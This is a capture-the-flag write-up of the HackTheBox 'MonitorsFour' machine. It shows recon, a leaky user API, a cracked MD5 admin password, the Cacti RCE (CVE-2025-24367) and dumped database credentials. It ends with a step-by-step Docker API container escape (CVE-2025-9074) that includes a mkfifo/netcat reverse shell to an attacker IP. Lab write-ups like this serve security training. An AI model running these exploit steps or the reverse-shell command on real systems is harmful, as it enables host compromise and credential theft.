This assessment followed a black-box approach, beginning with active reconaissance, progressing through enumeration, initial unprivileged foothold into the authorized target, and finally privilege escalation. [MonitorsFour is a HackTheBox "easy Windows" challenge](https://www.hackthebox.com/machines/MonitorsFour).

# Reconnaissance
Port and service scanning was performed on the target using `nmap.` It revealed an HTTP (insecure) webserver and a Microsoft HTTPAPI server, confirming the fact that this IP is associated with a Microsoft machine.
```bash
80/tcp   open  http    nginx
|_http-title: Did not follow redirect to http://monitorsfour.htb/
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Enumeration on files and pages from the root directory of the resolved domain name (monitorsfour.htb) revealed information like a `login` and `user` path:
```bash
contact                 [Status: 200, Size: 367, Words: 34, Lines: 5, Duration: 74ms]
user                    [Status: 200, Size: 35, Words: 3, Lines: 1, Duration: 199ms]
login                   [Status: 200, Size: 4340, Words: 1342, Lines: 96, Duration: 199ms]
static                  [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 53ms]
views                   [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 181ms]
controllers             [Status: 301, Size: 162, Words: 5, Lines: 8, Duration: 159ms]
forgot-password         [Status: 200, Size: 3099, Words: 164, Lines: 84, Duration: 206ms]
```

*monitorsfour.htb/login*

Seeing as the login page was using a basic login form handled through a single POST request (`/forgot-password`), SQL injection (SQLi) opportunities were tested for using the tool `sqlmap`. No immediate SQLi vulnerabilities were made available through this process.

One of the discovered webpages: `/user`, contained query parameters in its URL which is problematic because it allows for easy fuzzing for valid queries and their values.

*monitorsfour.htb/user*

Using the enumeration tool `ffuf`, a list of potential parameter names was tested against the hidden webpage, revealing the `token` parameter.
```bash
└─$ ffuf -u http://monitorsfour.htb/api/v1/user?FUZZ=test -w burp-parameter-names.txt -c -fs 35

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://monitorsfour.htb/api/v1/user?FUZZ=test
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 35
________________________________________________

token                   [Status: 200, Size: 32, Words: 3, Lines: 1, Duration: 356ms]
:: Progress: [6453/6453] :: Job [1/1] :: 61 req/sec :: Duration: [0:01:28] :: Errors: 0 ::
```

Manual enumeration in the value field of the URL with the found parameter (`monitorsfour.htb/user?token=<int>`) revealed potentially sensitive information about users on the `/login` portal, including insecure MD5 hashes (a computationally inexpensive cryptographic algorithm).
```json
[{"id":2,"username":"admin","email":"admin@monitorsfour.htb","password":"56b32eb43e6f15395f6c46c1c9e1cd36","role":"super user","token":"8024b78f83f102da4f","name":"Marcus Higgins","position":"System Administrator","dob":"1978-04-26","start_date":"2021-01-12","salary":"320800.00"},{"id":5,"username":"mwatson","email":"mwatson@monitorsfour.htb","password":"69196959c16b26ef00b77d82cf6eb169","role":"user","token":"0e543210987654321","name":"Michael Watson","position":"Website Administrator","dob":"1985-02-15","start_date":"2021-05-11","salary":"75000.00"},{"id":6,"username":"janderson","email":"janderson@monitorsfour.htb","password":"2a22dcf99190c322d974c8df5ba3256b","role":"user","token":"0e999999999999999","name":"Jennifer Anderson","position":"Network Engineer","dob":"1990-07-16","start_date":"2021-06-20","salary":"68000.00"},{"id":7,"username":"dthompson","email":"dthompson@monitorsfour.htb","password":"8d4a7e7fd08555133e056d9aacb1e519","role":"user","token":"0e111111111111111","name":"David Thompson","position":"Database Manager","dob":"1982-11-23","start_date":"2022-09-15","salary":"83000.00"}]
```
*Confirming the use of MD5*

One of the users' hashes, `admin`, contained a weak password which is also documented in a well-known database of leaked passwords known as "rockyou".
```bash
hashcat -m 0 ~/Documents/htb/monitorsfour/admin_hash rockyou.txt
...
56b32eb43e6f15395f6c46c1c9e1cd36:wonderful1
```

These credentials were tested to gain access to the MonitorsFour dashboard through the `/login` portal which, in conjunction with the users shown in the second image below, confirm that the credentials found earlier are representative of the MonitorsFour dashboard users.
*monitorsfour.htb/dashboard*


Above, user `admin`'s first name, Marcus, is highlighted as it was useful for later credentials testing.

Enumeration on subdomains was performed on monitorsfour.htb using `ffuf` revealing cacti.monitorsfour.htb.
```bash
└─$ ffuf -u http://monitorsfour.htb -H "Host: FUZZ.monitorsfour.htb" -w subdomains-top1million-20000.txt -c -fs 138

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://monitorsfour.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.monitorsfour.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 138
________________________________________________

cacti                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 55ms]
:: Progress: [19966/19966] :: Job [1/1] :: 716 req/sec :: Duration: [0:00:28] :: Errors: 0 ::
```

*cacti.monitorsfour.htb/cacti*

# Foothold
Basic searches on the version of the Cacti framework listed near the footer of the login page (as seen above) made available a CVSS 8.8 rated vulnerability ([CVE-2025-24367](https://nvd.nist.gov/vuln/detail/CVE-2025-24367)) which allows authenticated users to take advantage of improper sanitization in the graph creation mechanism to execute code remotely ([netniV](https://github.com/Cacti/cacti/security/advisories/GHSA-fxrq-fr7h-9rqq)). Other methods involving unauthenticated exploits with this server were explored, but through more rigorous credential guessing, the previously found user, admin, had reused their password to authenticate with username "marcus" in the Cacti dashboard.


CVE-2025-24367 is available for simple exploitation using the Metasploit framework tool `msfconsole`, using the module titled: `multi/http/cacti_graph_template_rce` It's trivial to achieve a remote reverse shell using this module.


**Note**
When the reverse shell was established, it's notable to applaud the safeguards of the deployers of this application for running the `cacti` framework as an unprivileged, dedicated user `wwwdata`.



**Mitigation**

Update Cacti to >v1.2.28 to prevent users from escaping rrdtool using newline characters. *[Source](https://github.com/Cacti/cacti/security/advisories/GHSA-fxrq-fr7h-9rqq)*


# Privilege Escalation
The container that Cacti sits in appeared to be of the WSL type. The following is the output of `uname -a`.
```bash
Linux version 6.6.87.2-microsoft-standard-WSL2 (root@439a258ad544) (gcc (GCC) 11.2.0, GNU ld (GNU Binutils) 2.37) #1 SMP PREEMPT_DYNAMIC Thu Jun  5 18:30:46 UTC 2025
```

`wwwdata` had access to a number of sensitive documents such as an environment variable and cacti's config.php, each containing sensitive credentials related to the databases of both the Cacti and MonitorsFour websites. The following few blocks of bash are excerpts from the Linux enumeration tool [`linpeas.sh`]([https://linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)).
```bash
╔══════════╣ Analyzing Env Files (limit 70)
-rwxr-xr-x 1 www-data www-data 97 Sep 13  2025 /var/www/app/.env
DB_HOST=mariadb
DB_PORT=3306
DB_NAME=monitorsfour_db
DB_USER=monitorsdbuser
DB_PASS=f37p2j8f4t0r
...
╔══════════╣ Analyzing Cacti Files (limit 70)
drwxr-xr-x 1 www-data www-data 4096 Apr 30 03:36 /var/www/html/cacti
-rwxr-xr-x 1 www-data www-data 7159 Sep 13  2025 /var/www/html/cacti/include/config.php
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_username = 'cactidbuser';
$database_password = '7pyrf6ly8qx4';
$database_port     = '3306';
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
#$rdatabase_type     = 'mysql';
#$rdatabase_default  = 'cacti';
#$rdatabase_username = 'cactiuser';
#$rdatabase_password = 'cactiuser';
#$rdatabase_port     = '3306';
#$rdatabase_ssl      = false;
#$rdatabase_ssl_key  = '';
#$rdatabase_ssl_cert = '';
#$rdatabase_ssl_ca   = '';
```

`wwwdata` also had write privileges on each of these databases. This was demonstrated by overwriting the bcrypt and MD5 password hashes located in the Cacti and MonitorsFour databases, respectively. These changes to the hash were immediately reflected in the web applications as well.

linpeas.sh also identified mounted files to the Cacti container from it's host including files `/etc/resolv.conf`, `/etc/hostname` and `/etc/hosts`.
*mounted files*

`/etc/resolv.conf`, a DNS resolving config file, exposed more information about the environment to a potential attacker, confirming a previous finding in the MonitorsFour dashboard that exposes the version number of the Docker Engine version that's hosting the Cacti and MonitorsFour dashboards.


Recalling from monitorsfour.htb:


A known [proof of concept](https://github.com/zenzue/CVE-2025-9074/blob/main/cve_2025_9074_poc.py) exists for the vulnerability [CVE-2025-9074](https://www.sentinelone.com/vulnerability-database/cve-2025-9074/), which "allows local running Linux containers to access the Docker Enginer API."  (SentinalOne) Additionally: "On Docker Desktop for Windows with the WSL backend, the vulnerability additionally allows mounting the host drive with the same privileges as the user running Docker Desktop, potentially leading to complete host compromise."

However, this script was not helpful in demonstrating a successful exploitation of this vulnerability, as the container doesn't have Python installed. However, it did have access to web tools like `curl`, which can also be used to interact with the API of the default IP address (192.168.65.7). The steps to reproducing the exploit through the use of individual API calls are as follows.

## Steps for Recreation: CVE-2025-9074
1. Check available images: `curl http://192.168.65.7:2375/images/json 2>/dev/null | grep -o '"RepoTags":\["[^"]*"'`


2. Create a container with the Windows C:\ drive (default letter) mounted:
```bash
curl -s -X POST http://192.168.65.7:2375/containers/create \
  -H "Content-Type: application/json" \
  -d '{
    "Image": "alpine",
    "Cmd": ["sh", "-c", "sleep 3600"],
    "HostConfig": {
      "Binds": ["/mnt/host/c:/host_root"]
    }
  }'
  
<ID_RETURNED_HERE>
```

3. Using the returned container ID, start it: `curl -s -X POST http://192.168.65.7:2375/containers/<ID>/start`

4. Create an `exec` instance of a given command (returning a new ID):
```bash
curl -s -X POST http://192.168.65.7:2375/containers/<CONTAINER_ID>/exec \
  -H "Content-Type: application/json" \
  -d '{"AttachStdin":true,"AttachStdout":true,"AttachStderr":true,"Tty":true,"Cmd":["sh","-c","rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.205 4444 >/tmp/f"]}'
  
<ID_RETURNED_HERE>
```

5. Trigger the command exec handle by sending a POST request to `/start`:
```bash
curl -s -X POST http://192.168.65.7:2375/exec/<EXEC_ID>/start -H "Content-Type: application/json" -d '{"Detach":false,"Tty":false}'
```

